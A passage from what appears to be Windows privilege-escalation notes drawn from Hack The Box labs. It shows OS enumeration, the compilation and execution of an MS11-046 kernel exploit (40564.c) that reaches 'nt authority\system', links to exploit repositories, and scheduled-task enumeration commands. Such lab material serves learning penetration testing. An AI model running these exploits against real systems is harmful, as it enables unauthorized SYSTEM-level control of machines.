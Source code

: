 ``` bash
c:\windows\system32\inetsrv>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
System Type:               X86-based PC
```

``` bash
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

``` bash
c:\Users\Public>40564.exe
40564.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

[Vulnerability in Ancillary Function Driver](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/003-devel_aspx-backdoor_ms11-046-6.1.7600#vulnerability-in-ancillary-function-driver)

### Windows MS11-046 kernel

``` bash
c:\Windows\System32>systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
OS Name:                   Microsoftr Windows Serverr 2008 Standard 
OS Version:                6.0.6001 Service Pack 1 Build 6001
```

[https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046)

``` bash
C:\wamp\www>MS11-046.exe
MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

## Scheduled Tasks

``` bash
schtasks /query /fo LIST /v
```

``` bash
schtasks /query /fo LIST /v | findstr /B /C:"Task To Run" /C:"Next Run Time" /C:"Last Run Time" /C:"Schedule Type" /C:"Start Time" /C:"Start Date"
```

## Readable/Writable
